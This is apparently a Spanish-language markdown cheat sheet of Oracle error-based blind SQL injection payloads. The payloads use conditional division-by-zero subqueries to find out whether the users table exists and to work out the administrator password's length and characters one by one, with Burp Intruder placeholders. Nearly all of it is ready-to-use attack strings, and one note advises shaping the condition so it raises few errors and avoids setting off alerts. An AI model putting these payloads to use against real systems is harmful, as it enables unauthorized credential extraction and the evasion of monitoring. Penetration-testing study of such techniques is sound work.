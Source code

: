 ```
'||(select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and LENGTH(password)>$1$)||'
'||(SELECT CASE ((SELECT 'x' FROM users WHERE username='administrator' and LENGTH(password)=$1$)='x') THEN '' ELSE 1/0 END)||'

Esta es de ChatGPT
'||(SELECT CASE WHEN LENGTH(password) = $1$ THEN '' ELSE TO_CHAR(1/0) END FROM users WHERE username='administrator' AND ROWNUM = 1)||'
```

### Subconsulta aplicadas con Error de División por Cero - Enumerar campo
```
Todas las subconsultas hacen lo mismo  pero de diferente manera
'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'				
'||(select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and SUBSTR(password,1,1)='§a§')||'	
```
<br><br>**NOTA la condicional del error debe generar la menor cantidad de errores posible para no generar alertas es por eso que la solicitud adecuada es la que genera el error y no al reves**


## Subconsulta Condicional
La principal diferencia es que aquí no es necesario convertir todos las variables o resultados a varchar ya que no pertenece a una concatenación de caracteres
### Subconsulta Condicional - Error Lógico
```
' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a																					=>Consulta falsa con adecuado comportamiento
' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a																					=>Consulta verdadera con error logico incorporado
```
### Subconsulta Condicional -  Verificar el nombre de una tabla
```
' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE '' END FROM users )'
' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE '' END FROM tablaQueNoExiste )'
```
### Subconsulta Condicional -  Verificar un capo de una tabla
```
' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE '' END FROM users WHERE username='administrator')'
```
### Subconsulta Condicional -  Verificar la longitud de un valor de un campo de la columna, en este caso la contraseña 
```
' AND (SELECT CASE WHEN LENGTH(password)=$1$ THEN 1/0 ELSE '' END FROM users WHERE username='administrator')'
```
### Subconsulta Condicional -  Enumerar campo
```
' AND (SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN 1/0 ELSE '' END FROM users WHERE username='administrator')'	
```
<br><br> **Nota: Ctrl + click copia toda la columna de intruder**
